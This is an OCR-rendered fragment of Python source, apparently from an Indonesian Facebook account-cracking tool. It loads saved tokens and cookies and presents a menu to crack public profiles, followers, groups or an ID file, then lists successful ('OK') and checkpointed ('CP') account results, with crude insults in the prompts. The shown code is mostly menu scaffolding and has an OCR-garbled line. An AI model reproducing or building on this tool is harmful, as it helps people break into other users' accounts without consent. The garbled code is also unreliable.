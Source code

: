 		print(f'  %s[%sx%s]%s LOGIN NO%s'%(x,k,x,m,x))
		exit()
#------------------[ BAGIAN-MENU ]----------------#
def menu(my_name,my_id):
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
		print('[Ã—] Cookies ')
		time.sleep(5)
		login_lagi334()
	os.system('clear')
	banner()
	ip = requests.get("https://api.ipify.org").text
	cetak(nel('\tSelamat Datang [green]%s[white] Ngentod'%(my_name)))
	alvino_xy(f'>> ID TO : '+str(my_id))
	alvino_xy(f'>> IP TO  : {ip}')
	print('')
	print('>> 1. CRACK PUBLIC ')
	print('>> 2. CRACK FOLLOWERS ')
	print('>> 3. CRACK GRUOP   ')
	print('>> 4. CRACK FILE	')
	print('>> 5. HASIL CRACK ')
	print('>> 0. DARCHUN       ')
	_____zana__zana_____ = input('\n>> CHOSE : ')
	if _____zana__zana_____ in ['10]:
		dump_massal()
	elif _____zana__zana_____ in ['2']:
		dump_follower()
	elif _____zana__zana_____ in ['3']:
		error()
	elif _____zana__zana_____ in ['4']:
		crack_file()
	elif _____zana__zana_____ in ['5']:
		result()
	elif _____zana__zana_____ in ['0']:
		os.system('rm -rf .token.txt')
		os.system('rm -rf .cookie.txt')
		print('>> Sukses Logout+Hapus Kukis ')
		exit()
	else:
		print('>> Pilih Yang Bener Asu ')
		back()
def error():
	print(f'{k}>> Maaf Fitur Ini Masih Di Perbaiki {x}')
	time.sleep(4)
	back()
#-----------------[ HASIL-CRACK ]-----------------#
def result():
	print('>> Hasil OK Anda ')
	print('>> Hasil CP Anda ')
	print('>> Kembali	')
	kz = input('\n>> Pilih : ')
	if kz in ['1','01']:
		try:vin = os.listdir('CP')
		except FileNotFoundError:
			print('>> File Tidak Di Temukan ')
			time.sleep(3)
			back()
		if len(vin)==0:
			print('>> Anda Tidak Memiliki Hasil CP ')
			time.sleep(2)
			back()
		else: